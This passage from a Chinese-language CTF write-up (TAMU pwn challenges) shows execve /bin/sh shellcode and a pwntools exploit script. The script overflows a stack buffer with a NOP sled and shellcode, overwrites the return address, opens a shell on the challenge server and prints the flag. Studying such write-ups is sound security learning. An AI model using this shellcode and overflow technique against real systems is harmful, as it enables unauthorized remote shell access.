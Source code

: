 		char shellcode[] = "\x31\xc0\x50\x68\x2f\x2f\x73"
		                   "\x68\x68\x2f\x62\x69\x6e\x89"
		                   "\xe3\x89\xc1\x89\xc2\xb0\x0b"
		                   "\xcd\x80\x31\xc0\x40\xcd\x80";

编写脚本：
```
from pwn import *
 
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e"\
             "\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40"\
             "\xcd\x80"
                                  
p = remote("pwn.ctf.tamu.edu", 4323)
                                   
ret = p.recvuntil("echo?")
addr_buf = int(ret[0x94:0x9c], 16)                                       
payload = "\x90" * (242 - 20 - len(shellcode))  # nop-sled
payload += shellcode                            # shellcode
payload += "\x90" * 20                          # fill-bytes
payload += p32(addr_buf)                        # overwrite return address
p.sendline(payload)
p.recv(1000)
p.recv(1000)                                     
p.interactive()
```

运行脚本

<img src="/images/posts/TAMU pwn/1519644412283.png" height="300" width="600"> 

flag：gigem{n0w_w3_4r3_g377in6_s74r73d}

#### pwn4

首先检查使用哪些安全机制checksec：

<img src="/images/posts/TAMU pwn/1519644765887.png" height="300" width="600"> 

